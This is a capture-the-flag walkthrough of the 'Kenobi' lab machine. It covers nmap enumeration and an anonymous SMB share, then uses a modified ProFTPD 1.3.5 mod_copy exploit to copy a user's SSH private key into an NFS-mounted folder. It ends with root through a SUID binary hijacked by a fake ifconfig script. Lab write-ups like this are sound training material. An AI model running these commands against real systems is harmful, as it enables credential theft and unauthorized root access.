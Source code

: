 # Kenobi

***
![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/ab53e317-4530-4bf2-8910-6defd55ec680)

## **Difficulty = Easy**

***

Running our nmap scan we have


```
# Nmap 7.94SVN scan initiated Fri Feb  9 14:14:11 2024 as: nmap -p- -sCV -v --min-rate=1000 -T4 -oN nmap.txt 10.10.3.223
Increasing send delay for 10.10.3.223 from 0 to 5 due to 63 out of 156 dropped probes since last increase.
Increasing send delay for 10.10.3.223 from 5 to 10 due to 11 out of 11 dropped probes since last increase.
Nmap scan report for 10.10.3.223
Host is up (0.23s latency).
Not shown: 65442 filtered tcp ports (no-response), 87 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.3.5
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/admin.html
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
111/tcp open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      34373/udp6  mountd
|   100005  1,2,3      39727/tcp6  mountd
|   100005  1,2,3      49087/tcp   mountd
|   100005  1,2,3      60433/udp   mountd
|   100021  1,3,4      44331/tcp   nlockmgr
|   100021  1,3,4      45453/tcp6  nlockmgr
|   100021  1,3,4      54431/udp6  nlockmgr
|   100021  1,3,4      59904/udp   nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h59m59s, deviation: 3h27m51s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2024-02-09T07:16:42-06:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-02-09T13:16:42
|_  start_date: N/A
| nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KENOBI<00>           Flags: <unique><active>
|   KENOBI<03>           Flags: <unique><active>
|   KENOBI<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb  9 14:16:54 2024 -- 1 IP address (1 host up) scanned in 163.26 seconds
```



Checking port 80/HTTP we have this



![](https://i.imgur.com/MCIU09Z.png)




Checking port 139/445 SMB we have an anonymous share



![](https://i.imgur.com/enDBCOo.png)


We can go ahead and connect to it, in which we have a `log.txt` file, go ahead and download to our local machine


```bash
smbclient \\\\10.10.156.73\\anonymous

mget log.txt
```



![](https://i.imgur.com/aJBT4hi.png)



Checking the log file looks like some kind of FTP log, let enumerate ftp 



![](https://i.imgur.com/EH2C8Xa.png)



We can't connect via the anonymous user as the default password "`anonymous`", probably it has been changed



![](https://i.imgur.com/mYA5Al2.png)


Well, but lucky for us we have the version for the FTP server, **"ProFTPD 1.3.5 Server"**, Enumerating this version leads me to this [exploit](https://www.exploit-db.com/exploits/49908)



![](https://i.imgur.com/YCgoLzk.png)



Although we have to make some little changes to this exploit, by changing the `cpfr` which is copy from command path to `/home/kenobi/.ssh/id_rsa` and command `cpto` which is copy to `/var/tmp/id_rsa`



![](https://i.imgur.com/36pR6IT.png)


> I am sorry if i am a bit too forward but i have enumerated the NFS share already, i found out that there is a writable share on `/var/tmp` that is why i decided to specify it in our exploit, the `/home/kenobi/.ssh/id_rsa` is from the `log.txt` file, Remember :D 



Go ahead and run the exploit


```bash
python3 exploit.py 10.10.3.223
```



![](https://i.imgur.com/SzsC4BS.png)


Now mount the NFS share on port 111



```bash
showmount -e 10.10.156.73

sudo mount -t nfs 10.10.156.73:/var ./mnt
```



![](https://i.imgur.com/t4RhpJb.png)


Go ahead and switch to the mounted NFS, then copy the `id_rsa` to wherever you want, Just copy it!!!


![](https://i.imgur.com/DvsU32N.png)



Go ahead and login as user kenobi with the `id_rsa` file



![](https://i.imgur.com/lg6DB5s.png)


Running `find / -perm -4000 2>/dev/null` we have we have an unusual SUID binary `/usr/bin/menu`




![](https://i.imgur.com/VDNwrnm.png)



running this binary and choosing option 3 we can see that, the `ifconfig` binary is been ran, we can create our own `ifconfig` binary and use it to gain shell




![](https://i.imgur.com/70EwVlT.png)


We can go ahead and change directory to `/tmp`, create a file named `ifconfig`, grant it 777 permissions, export the `/tmp` path to PATH environment variable and run the `/usr/bin/menu` program selecting option 3 again and you should be root



```bash
# Create the file

cd /tmp
touch ifconfig
vim ifconfig

# COPY AND PASTE this

#!/bin/bash
/bin/bash -i

# HIT [ESC] key and then type in :wq to exit vim saving changes

# Export PATH

chmod 777 ifconfig
export PATH=/tmp:$PATH

# Run the program

/usr/bin/menu
3
```


![](https://i.imgur.com/oI6I0cB.png)


Just a milestone to the Offensive Security Path, Have a nice weekend 😄


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>



